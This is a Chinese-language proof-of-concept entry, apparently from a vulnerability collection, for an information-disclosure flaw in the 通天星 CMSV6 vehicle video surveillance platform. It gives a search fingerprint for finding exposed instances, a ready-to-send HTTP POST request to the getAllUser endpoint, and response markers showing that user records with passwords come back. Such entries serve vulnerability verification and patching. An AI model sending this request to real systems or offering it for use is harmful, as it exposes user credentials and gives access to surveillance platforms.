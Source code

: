 ﻿# 通天星CMSV6 车载视频监控平台 信息泄露漏

> 更新时间：2024-02-26

> 漏洞编号：

> 漏洞说明：通天星CMSV6车载视频监控平台 StandardLoginAction getAlser.acion接口处存在信息泄露漏洞

> 漏洞特征：body="/808gps/"

> 验证脚本：HTTP

```
POST /808gps/StandardLoginAction_getAllUser.action HTTP/1.1
Connection: close
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate

json=null
```

> 响应代码特征：200

> 响应内容特征：password

> 上传文件定位：

> 验证文件来源：通天星CMSV6 车载视频监控平台 信息泄露漏.poc